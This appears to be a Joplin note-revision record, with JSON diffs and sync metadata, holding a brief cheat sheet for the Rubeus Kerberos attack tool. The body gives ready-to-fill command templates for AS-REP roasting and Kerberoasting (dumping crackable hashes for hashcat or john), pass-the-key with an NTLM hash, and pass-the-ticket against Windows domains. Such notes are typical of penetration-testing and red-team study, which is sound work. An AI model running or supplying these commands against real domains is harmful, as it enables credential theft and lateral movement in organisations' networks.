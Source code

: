 id: a5183527c43b456887d1395aa786f281
parent_id: 
item_type: 1
item_id: 7b66f6713712458dad8fd021280ca0f6
item_updated_time: 1643082011931
title_diff: "[{\"diffs\":[[1,\"Rubeus\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":6}]"
body_diff: "[{\"diffs\":[[1,\"# Source\\\n\\\n- https://github.com/GhostPack/Rubeus\\\n\\\nReview the opsec notes before compiling the program in visual studio. \\\n\\\n## ASREProasting:\\\n\\\nchek for users in the current domain:\\\n\\\n- Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>\\\n\\\n## Kerberoasting:\\\n\\\n- Rubeus.exe kerberoast /outfile:<output_TGSs_file>\\\n\\\n- Rubeus.exe kerberoast /outfile:hashes.txt [/spn:\\\"SID-VALUE\\\"] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:\\\"OU=,...\\\"] \\\n\\\n## Pass the key (PTK):\\\n\\\n- .\\\\Rubeus.exe asktgt /domain:<domain_name> /user:<user_name> /rc4:<ntlm_hash> /ptt\\\n\\\n\\\n## Using the ticket on a Windows target: \\\n\\\n- Rubeus.exe ptt /ticket:<ticket_kirbi_file>\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":690}]"
metadata_diff: {"new":{"id":"7b66f6713712458dad8fd021280ca0f6","parent_id":"2deea0a2fd65431c90074dad6a2d5de8","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1586402454342,"user_updated_time":1586461189994,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:44:25.821Z
created_time: 2022-02-28T02:44:25.821Z
type_: 13